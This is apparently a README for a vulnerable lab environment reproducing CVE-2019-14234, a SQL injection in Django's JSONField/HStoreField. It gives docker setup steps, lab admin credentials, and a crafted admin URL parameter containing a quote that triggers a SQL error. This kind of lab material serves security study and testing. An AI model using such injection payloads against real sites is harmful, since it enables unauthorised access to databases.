

# Django JSONField/HStoreField SQL Injection (CVE-2019-14234)

[中文版本(Chinese version)](README.zh-cn.md)

Django is a high-level Python web framework that encourages rapid development and clean, pragmatic design.

Django released a security update on August 1, 2019, which fixes a SQL injection vulnerability in the JSONField and HStoreField model fields. This vulnerability affects Django versions before 2.2.4, 2.1.11, and 1.11.23.

The vulnerability requires the developer to use JSONField/HStoreField, and the field name of the queryset can be controlled by the user. Django's built-in admin interface is affected by this vulnerability, providing an easy way to demonstrate the issue.

References:

- <https://www.djangoproject.com/weblog/2019/aug/01/security-releases/>
- <https://www.leavesongs.com/PENETRATION/django-jsonfield-cve-2019-14234.html>

## Environment Setup

Execute the following command to compile and start a vulnerable Django 2.2.3 server:

```
docker compose build
docker compose up -d
```

After the server is started, you can access the Django home page at `http://your-ip:8000`.

## Vulnerability Reproduction

First, log in to the Django admin interface at `http://your-ip:8000/admin/` using the following credentials:

- Username: `admin`
- Password: `a123123123`

Navigate to the Collection model's list view at `http://your-ip:8000/admin/vuln/collection/`:



To exploit the SQL injection vulnerability, add `detail__a'b=123` to the GET parameters, where `detail` is the JSONField:

```
http://your-ip:8000/admin/vuln/collection/?detail__a%27b=123
```

The SQL error message will be displayed, confirming the successful injection:


